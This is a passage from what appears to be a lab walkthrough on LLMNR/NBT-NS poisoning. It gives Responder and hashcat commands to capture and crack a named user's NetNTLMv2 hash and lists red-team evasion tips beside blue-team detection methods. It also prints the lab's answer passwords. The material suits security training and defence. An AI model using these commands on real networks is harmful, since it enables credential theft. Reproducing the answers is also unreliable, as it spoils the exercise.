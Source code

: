 **Answer:** `h1backup55`

### Question 3: Capture and Crack Hash for User 'wley'
**Task:** Obtain NTLMv2 hash for user wley and crack it

**Solution:**
```bash
# Continue running Responder (or restart)
sudo responder -I ens224 -wf

# Wait for wley user activity
# Monitor logs for wley hash
tail -f /usr/share/responder/logs/Responder-Session.log

# Once captured, crack the hash
hashcat -m 5600 /usr/share/responder/logs/*wley*.txt /usr/share/wordlists/rockyou.txt

# View result
hashcat -m 5600 /usr/share/responder/logs/*wley*.txt --show
```

**Answer:** `transporter@4`

---

## Detection and Evasion

### Blue Team Detection Methods
- **Network monitoring** for unusual multicast traffic
- **DNS logging** for failed resolution patterns
- **Authentication monitoring** for rapid hash attempts
- **Network segmentation** to limit broadcast domains

### Red Team Evasion Techniques
- **Selective poisoning** (target specific hosts)
- **Time-based attacks** (poison during business hours)
- **Protocol selection** (focus on less monitored protocols)
- **Legitimate-looking responses** (match network naming schemes)

---

## Common Issues & Troubleshooting

### Responder Not Capturing Hashes
**Check:**
1. **Network interface** is correct
2. **Ports are available** (kill conflicting services)
3. **Network activity** exists (users accessing resources)
4. **Permissions** (run as root/sudo)

### Hashcat Not Cracking
**Considerations:**
1. **Hash format** is correct (mode 5600 for NetNTLMv2)
2. **Wordlist path** is valid
3. **Hardware capabilities** (GPU vs CPU)
4. **Password complexity** (may need larger wordlists)
